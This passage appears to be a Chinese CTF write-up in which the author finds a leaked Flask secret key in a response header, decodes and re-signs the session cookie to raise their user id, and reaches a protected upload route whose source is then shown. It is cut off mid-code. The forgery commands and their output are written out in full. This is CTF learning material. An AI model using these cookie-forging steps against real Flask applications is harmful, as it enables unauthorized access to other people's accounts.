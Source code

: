 登陆之后有个/upload路由，但是提示没有权限，估计是要进行cookie伪造

转而把注意力放在了cookie上面。

#### session伪造

利用flask-session-cookie-manager-master进行解码：

```
python .\flask_session_cookie_manager3.py decode -c ".eJyrVspMUbKqVlJIUrJS8g1xLFeq1VHKLI7PyU_PzFOyKikqTdVRKkgsLi7PLwIqVCrPMCwuSC1S0lEqLU4tykvMTUUSrAUA2H4Z2g.X3vTHQ.Se1sFiI38_RUBhZeYgBMY2hoNaQ"
b'{"id":{" b":"MTAw"},"is_login":true,"password":"wh1sper","username":"wh1sper"}'
```

 

如果访问不存在的路由会给一个响应头：

```
Swpuctf_csrf_token: U0VDUkVUX0tFWTprZXlxcXF3d3dlZWUhQCMkJV4mKg== 
```

base64解码之后就是secret_key(这里没搞懂为什么要这样出):

```
SECRET_KEY:keyqqqwwweee!@#$%^&* 
```

再次进行解码：

```
python .\flask_session_cookie_manager3.py decode -c ".eJyrVspMUbKqVlJIUrJS8g1xLFeq1VHKLI7PyU_PzFOyKikqTdVRKkgsLi7PLwIqVCrPMCwuSC1S0lEqLU4tykvMTUUSrAUA2H4Z2g.X3vTHQ.Se1sFiI38_RUBhZeYgBMY2hoNaQ" -s "keyqqqwwweee!@#$%^&*"
{'id': b'100', 'is_login': True, 'password': 'wh1sper', 'username': 'wh1sper'}
```

盲猜如果id=1的话应该就可以越权，那么再次加密回去；

```
python .\flask_session_cookie_manager3.py encode -s "keyqqqwwweee!@#$%^&*" -t "{'id': '1', 'is_login': True, 'password': 'wh1sper', 'username': 'wh1sper'}"
.eJyrVspMUbJSMlTSUcosjs_JT8_MU7IqKSpN1VEqSCwuLs8vAkmXZxgWF6QWARWVFqcW5SXmpiIJ1gIA95wWug.X3vb0w.5S11T85EsOVa2ggJa_vbtgJDxr4
```

F12替换cookie，来到/upload路由；

 

ctrl+U能够查看到后端源码：

```
@app.route('/upload', methods=['GET', 'POST'])
def upload():
    if session['id'] != b'1':
        return render_template_string(temp)
    if request.method == 'POST':
        m = hashlib.md5()
        name = session['password']
        name = name + 'qweqweqwe'
        name = name.encode(encoding='utf-8')
        m.update(name)
        md5_one = m.hexdigest()
        n = hashlib.md5()
        ip = request.remote_addr
        ip = ip.encode(encoding='utf-8')
        n.update(ip)
        md5_ip = n.hexdigest()
        f = request.files['file']
        basepath = os.path.dirname(os.path.realpath(__file__))
        path = basepath + '/upload/' + md5_ip + '/' + md5_one + '/' + session['username'] + "/"
        path_base = basepath + '/upload/' + md5_ip + '/'
        filename = f.filename
```